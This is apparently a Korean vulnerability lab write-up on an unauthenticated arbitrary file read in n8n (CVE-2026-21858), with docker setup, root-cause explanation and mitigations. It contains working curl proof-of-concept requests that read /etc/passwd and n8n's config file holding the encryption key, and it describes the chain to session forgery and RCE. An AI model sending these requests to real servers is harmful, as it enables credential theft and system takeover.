



# n8n 임의 파일 읽기 취약점 (CVE-2026-21858)

**Contributors**
-   [전오규(@Kamba)](https://github.com/Kamba-netizen)

<br/>

### 개요

* 오픈소스 워크플로우 자동화 플랫폼 n8n에서 발견된 RCE로 연결될 수 있는 인증되지 않은 임의 파일 읽기 취약점입니다.

* n8n 파일 업로드 기능에서 `Form Webhook` 및 `Form Trigger` 노드 요청 처리 과정의 `Content-Type` 헤더 검증이 미흡한 데에서 발생하는 취약점입니다. 공격자가 악의적인 파일 경로를 담은 JSON 데이터를 전송하면, 서버가 이를 정상적인 파싱 절차를 거친 파일 객체로 오인하여 검증 없이 내부 파일 시스템에 접근할 수 있습니다.

* 공격자는 대상 n8n 서버의 `Form Trigger`의 엔드포인트 주소만 알고 있으면 별도의 인증 없이 즉시 공격이 가능합니다.

<br/>

### 환경 구성
* **취약 조건 버전:** n8n 1.65.0 ~ 1.120.x (이미지 n8n 버전: 1.65.0)
* **환경 실행:**
```
docker compose up -d
```

**`Form Trigger` 노드의 엔드포인트 주소:** `http://your-ip:5678/form/vulnerable-form`



외부 미인증 사용자가 접근할 수 있는 n8n의 Form 엔드포인트 

<br/>

### PoC 
`Content-Type` 헤더를 `application/json`으로 조작하고, 바디에 탈취하고자 하는 시스템 파일 경로(`filepath`)를 지정하여 Form Trigger 노드의 엔드포인트로 전송합니다.

```
curl -X POST http://localhost:5678/form/vulnerable-form \
  -H "Content-Type: application/json" \
  -d '{
    "data": {},
    "files": {
      "file1": {
        "filepath": "/etc/passwd",
        "originalFilename": "test.bin",
        "mimetype": "application/octet-stream",
        "size": 12345
      }
    }
  }'
```


### 동작 원리

n8n 서버의 미들웨어인 `parseRequestBody` 함수는 엔드포인트로 패킷이 들어올 때, 그 데이터가 일반 텍스트인지, JSON인지, 파일업로드(`multipart/form`) 형식인지 검증하고 분류하는 역할을 합니다.

그러나 요청 헤더가 `application/json`인 경우, 이 미들웨어가 해당 데이터를 이미 검증이 끝난 안전한 객체로 오인하게 됩니다. 그 결과 공격자가 주입한 JSON 구조 내의 `"filepath": "/etc/passwd"` 값을 검증 없이 그대로 파서 로직으로 넘겨 파일 내용을 반환합니다.


<br/>



해당 취약점으로 내부 시스템 파일에 접근할 수 있음을 확인

<br/>

동일한 방식으로 n8n 내부 설정 파일 경로로 파일 경로를 지정하여 암호화 키를 추출할 수 있습니다. (해당 docker 이미지에서는 n8n 프로세스가 root 권한으로 실행 중이기 때문에 /root/로 진행하였습니다.)

```
curl -X POST http://localhost:5678/form/vulnerable-form \
  -H "Content-Type: application/json" \
  -d '{
    "formFields": {
      "Full Name": "",
      "Email": ""
    },
    "files": {
      "document": {
        "filepath": "/root/.n8n/config",
        "originalFilename": "test.bin",
        "mimetype": "application/octet-stream",
        "size": 12345
      }
    }
  }'
```



<br/>

해당 취약점을 통해 단순 시스템 파일뿐만 아니라 n8n의 config, database.sqlite 파일까지 탈취가 가능해집니다. 이를 통해 **관리자 세션 쿠키를 원격에서 위조**하여 로그인을 우회한 뒤, **원격 코드 실행(RCE)** 권한 획득까지 이어질 수 있습니다.

<br/>

### 대응 방안
* **최신 버전 업데이트:** n8n 인스턴스 Content-type 검증 로직이 수정된 버전(1.121.0 이상)으로 업데이트합니다.
* **방화벽 / 리버스 프록시 설정:** 업데이트가 안되는 환경에서는, Nginx나 WAF 단에서 /form/* 엔드포인트로 들어오는 요청 중 Content-Type: application/json인 패킷을 차단하는 룰셋을 추가하여 대응할 수 있습니다.

<br/>

## 참고
* https://github.com/Chocapikk/CVE-2026-21858/
* https://github.com/vulhub/vulhub/tree/master/n8n/CVE-2026-21858
* https://www.cyera.com/research-labs/ni8mare-unauthenticated-remote-code-execution-in-n8n-cve-2026-21858

